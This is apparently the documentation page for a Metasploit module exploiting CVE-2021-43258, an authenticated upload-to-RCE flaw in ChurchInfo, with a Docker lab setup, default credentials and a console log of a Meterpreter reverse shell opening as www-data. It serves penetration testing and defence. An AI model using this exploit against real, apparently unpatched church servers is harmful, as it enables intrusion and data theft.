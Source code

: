 ## Vulnerable Application
* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/

ChurchInfo is an open source PHP application used to help churches manage systems and users of the church.
There are various vulnerabilities in the ChurchInfo software which can be exploited by an
attacker, however this module targets an authenticated remote code execution (RCE) vulnerability
known as CVE-2021-43258 to execute code as the web daemon user (e.g. www-data).

ChurchInfo v1.2.13, v1.2.14, and v1.3.0 contain functionality to email users listed in the ChurchInfo database
with attachments. When preparing the email, a draft of the attachment is saved into
`/tmp_attach/`, which is a web accessible folder under the ChurchInfo web root. Before the email is sent,
the attachment draft can be loaded in the application. By uploading a malicious PHP file
as an attachment and then browsing to it on the web server, RCE can be achieved.

This vulnerability was assigned CVE-2021-43258. Version 1.3.0 was the latest version of ChurchInfo at the time
of writing and there is presently no known patch for this issue.

### Installation
Installation guides are available on the SourceForge site at https://sourceforge.net/projects/churchinfo/files/.

The following however is a quick and easy way to get most versions of ChurchInfo up and running using Docker,
which should make it a lot easier to setup and also clean up once you are finished testing things out.

1. `wget https://master.dl.sourceforge.net/project/churchinfo/churchinfo/1.3.0/churchinfo-1.3.0.tar.gz`
1. `tar -xvf churchinfo-1.3.0.tar.gz`
1. `sudo docker run -i -t -p "9090:80" -v ${PWD}/churchinfo:/app mattrayner/lamp:0.8.0-1804-php7`.
1. `sudo docker ps -a` and find the container ID that was created and which is now running.
1. `sudo docker exec -it *container ID* /bin/bash`
1. Inside the new prompt:
1. `mysqladmin -u root -p create churchinfo` and press the ENTER key when prompted for the password.
1. `cd /app/churchinfo/SQL`
1. `mysql -u root -p churchinfo < Install.sql` and press the ENTER key when prompted for the password.
1. `apt-get install nano` if you want to use Nano.
1. `nano /app/churchinfo/Include/Config.php`.
1. Set the `$sUSER` variable to `'root'`.
1. Set the `$sPASSWORD` variable to `''`.
1. Set the `$sRootPath` variable to `'/churchinfo'`. This should be default though.
1. Set the `$URL[0]` to `http://localhost/churchinfo/Default.php`.
1. Exit out of `nano` and run `/etc/init.d/apache2 restart`
1. Log in at `http://127.0.0.1:9090/churchinfo/Default.php` with the username `Admin` and password `churchinfoadmin`.
1. This should cause the app to redirect to a password change form.
1. Specify the old password, aka `churchinfoadmin` and then specify the new password twice and submit the form.
1. Go to `http://127.0.0.1:9090/churchinfo/PersonEditor.php` and fill out the form with as much detail as possible.
1. Click "Save and Add".

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable
ChurchInfo application, there MUST be a person entry available within the database. If there are no person
entries within the database, it will not be possible to create a draft email. This draft email
will be used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

1. Start `msfconsole`
1. `use exploit/multi/http/churchinfo_upload_exec`
1. Set the target `RHOST`, `APPBASE`, `USERNAME`, and `PASSWORD` values.
1. Optional: Set the target `RPORT` if the ChurchInfo server is running on a different port than port 80.
1. Optional: `set SSL true` if the target is using SSL for ChurchInfo.
1. Select the payload of choice or leave default.
1. Set the `LHOST` to your system.
1. Run the exploit with `run`, enjoy the shell!

## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.

### USERNAME
The username of a valid user account for the ChurchInfo application. Default is `admin`.

### PASSWORD
The password for a valid user account for the ChurchInfo application. Default is `churchinfoadmin` based on documentation.

### APPBASE
The base directory path to the ChurchInfo application. This can and will likely
vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ
The subject of the draft email used for the exploit, the email is not sent. Default value is `Read this now!`.

### EMAIL_MESG
The message on the draft email which is used for the exploit. The email is not sent. Default value is `Hello there!`.

## Scenarios
If there are no person entries in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```

This will enable additional information and details about the exploit as it is launched.

### ChurchInfo v1.3.0 with MySQL 5.7.35 on Ubuntu Linux 18.04.2 LTS (Docker Image)
```
msf6 > use exploit/multi/http/churchinfo_upload_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/churchinfo_upload_exec) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/churchinfo_upload_exec) > set RPORT 9090
RPORT => 9090
msf6 exploit(multi/http/churchinfo_upload_exec) > set PASSWORD testing123
PASSWORD => testing123
msf6 exploit(multi/http/churchinfo_upload_exec) > show options

Module options (exploit/multi/http/churchinfo_upload_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EMAIL_MESG  Hello there!     yes       Email message in webapp
   EMAIL_SUBJ  Read this now!   yes       Email subject in webapp
   PASSWORD    testing123       yes       Password to login with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       9090             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /churchinfo/     yes       The location of the ChurchInfo app
   USERNAME    admin            yes       Username for ChurchInfo application
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.182.196   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/churchinfo_upload_exec) > set LHOST docker0
LHOST => docker0
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Target is ChurchInfo!
[+] The target is vulnerable. Target is running ChurchInfo 1.3.0!
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: Items in Cart: 2
[+] Uploading exploit via temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/ueNYs9.php
[+] Executing payload with GET request
[*] Sending stage (39927 bytes) to 172.18.0.2
[+] Deleted ueNYs9.php
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:37790) at 2022-11-18 17:44:31 -0600


meterpreter > getpid
Current pid: 452
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 8eeaa82293b4
OS          : Linux 8eeaa82293b4 5.15.0-53-generic #59-Ubuntu SMP Mon Oct 17 18:53:30 UTC 2022 x86_64
Meterpreter : php/linux
meterpreter >
```
